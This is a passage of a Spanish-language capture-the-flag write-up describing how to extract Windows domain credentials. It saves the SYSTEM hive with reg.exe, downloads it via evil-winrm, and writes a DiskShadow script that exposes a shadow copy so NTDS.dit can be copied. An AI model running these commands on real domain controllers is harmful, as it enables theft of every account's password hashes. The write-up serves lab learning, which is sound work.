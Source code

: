 El primer paso es obtener el archivo **SYSTEM**. Este proceso es sencillo y se puede lograr ejecutando el siguiente comando:

```powershell
PS C:\Users\svc_backup\Desktop> reg.exe save hklm\system system.save
```

Posteriormente, este archivo se traslada a la máquina atacante utilizando el comando `download` de **evil-winrm**:

```powershell
PS C:\Users\svc_backup\Desktop> download C:\Users\svc_backup\Desktop\system.save
```

No obstante, la extracción del archivo **NTDS.dit** presenta **mayor dificultad**, dado que el sistema operativo interactúa constantemente con este archivo, **imposibilitando una copia directa**. Esto significa que incluso utilizando herramientas como el comando `Copy-FileSeBackupPrivilege` explorado anteriormente, no se lograría obtener una copia del archivo NTDS debido a la constante interacción del sistema operativo con él.

#### Extracción del archivo NTDS.dit mediante DiskShadow

La extracción del archivo NTDS.dit se realiza siguiendo la información proporcionada por [Pentestlab](https://pentestlab.blog/tag/diskshadow/), que ofrece diversos métodos para esta tarea. Para este WriteUp, se utiliza una versión modificada de uno de estos métodos, ajustada según las necesidades del contexto.

La herramienta elegida para este proceso es **DiskShadow**, un binario firmado por Microsoft creado para ayudar en tareas relacionadas con el Servicio de Copia de seguridad de Volumen (VSS). DiskShadow permite el uso de archivos de script para automatizar la extracción de NTDS.dit, facilitando el proceso.

El primer paso es la creación de un **script** llamado **diskshadow.txt**, compuesto por los siguientes comandos. Es importante recordar que es **necesario** añadir un **espacio al final de cada línea** para asegurar la correcta ejecución:

```shell
set context persistent nowriters 
set metadata c:\Windows\Temp\c.cab 
add volume c: alias r1pfr4n 
create 
expose %r1pfr4n% x: 
```

La función de cada comando se detalla a continuación:

- **set context persistent nowriters**: Configura el contexto del escritor VSS en persistente y desactiva los escritores VSS.
- **set metadata c:\\Windows\\Temp\\c.cab**: Define la ubicación donde se almacenarán los metadatos de la copia de seguridad.
- **add volume c: alias r1pfr4n**: Agrega el volumen a copiarse con un alias específico. En este caso, se utiliza "r1pfr4n" como alias.
- **create**: Genera una copia de seguridad del volumen especificado.
- **expose %r1pfr4n% x:**: Presenta la copia de seguridad como una unidad de disco (x:) en el sistema.

Este script se origina en la máquina atacante y se transfiere a la máquina objetivo utilizando el comando `upload` de **evil-winrm**:
